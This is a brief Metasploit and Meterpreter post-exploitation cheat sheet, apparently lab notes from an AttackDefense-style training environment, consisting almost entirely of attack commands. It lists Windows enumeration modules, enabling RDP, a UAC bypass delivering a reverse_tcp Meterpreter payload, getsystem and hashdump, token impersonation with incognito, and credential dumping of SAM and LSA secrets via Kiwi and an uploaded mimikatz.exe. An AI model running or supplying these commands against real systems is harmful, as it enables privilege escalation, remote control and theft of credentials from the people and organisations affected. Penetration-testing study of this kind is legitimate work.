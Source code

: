 ```
use post/windows/gather/enum_applications
use post/windows/gather/enum_av_excluded
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares
use post/windows/manage/enable_rdp
set SESSION 1

loot
```

**UAC**

```
# Meterpreter
shell

# Win CMD
net users
net localgroup administrators

# Bypass UAC
background
sessions
use exploit/windows/local/bypassuac_injection BYPASS UAC (Background the session first)
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 1
set LPORT <LOCAL_PORT>
set TARGET Windows\ x64

getsystem
hashdump
```

**TOKEN IMPERSONATION**

```
# Privilege Escalation - Meterpreter
getuid
getprivs
hashdump
load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
ps
migrate <PID>
hashdump
```

**DUMP HASHES**

```
# Kiwi - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# Mimikatz - Meterpreter
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
```